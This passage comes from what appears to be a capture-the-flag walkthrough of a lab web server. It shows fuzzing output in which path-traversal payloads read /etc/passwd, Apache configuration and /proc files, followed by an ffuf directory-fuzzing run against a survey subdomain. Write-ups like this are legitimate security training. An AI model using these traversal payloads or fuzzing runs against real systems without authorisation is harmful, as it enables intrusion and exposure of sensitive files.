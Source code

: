 ```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 608ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 2100ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 2102ms]
/etc/rpc                [Status: 200, Size: 887, Words: 36, Lines: 41, Duration: 2098ms]
/proc/meminfo           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2095ms]
```

There we go, another thing I found while creating an account is there's a survey section in our profile:

![Pasted image 20250311164853.png](../../IMAGES/Pasted%20image%2020250311164853.png)

If we click it, we are redirected to another subdomain:

![Pasted image 20250311164915.png](../../IMAGES/Pasted%20image%2020250311164915.png)

Let's add it and try to fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://take-survey.heal.htb/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://take-survey.heal.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 75816, Words: 32809, Lines: 1086, Duration: 328ms]
optin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2146ms]
responses               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2142ms]
```
